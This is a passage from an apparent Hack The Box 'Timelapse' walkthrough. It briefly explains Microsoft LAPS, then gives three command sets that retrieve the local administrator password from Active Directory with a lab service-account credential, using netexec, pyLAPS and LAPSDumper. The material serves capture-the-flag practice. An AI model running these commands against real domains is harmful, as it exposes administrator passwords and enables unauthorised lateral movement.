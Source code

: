 ## 💀 Priv Esc

## LAPS

`LAPS (Local Administrator Password Solution)` in Active Directory is a security feature that automatically manages and rotates the local administrator password on domain-joined machines. Instead of having the same local admin password across all systems (which attackers can easily abuse if one machine is compromised), LAPS ensures each machine gets a unique, randomly generated password that is securely stored in Active Directory. Authorized administrators can retrieve it when needed, and it changes automatically on a set schedule. This greatly reduces the risk of lateral movement, prevents password reuse attacks, and strengthens overall security hygiene, making it an essential control for any organization.

![image.png](/assets/Images//HTB_Timelapse/image%205.png)

I listed all the methods which you can use to Retrive LAPS Password !

Using netexec to retrive the password 

```bash
nxc ldap $IP -d "timelapse.htb" -u "svc_deploy" -p 'E3R$Q62^12p7PLlC%KWaxuaV' --module laps
```

or

```bash
git clone https://github.com/p0dalirius/pyLAPS
cd pyLAPS
chmod 777 pyLAPS.py
 ./pyLAPS.py --action get -d "10.129.185.51" -u "svc_deploy" -p "E3R$Q62^12p7PLlC%KWaxuaV"
```

or

```bash
git clone https://github.com/n00py/LAPSDumper
cd LAPSDumper
chmod 777 laps.py
python laps.py -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -d 'timelapse.htb'
```
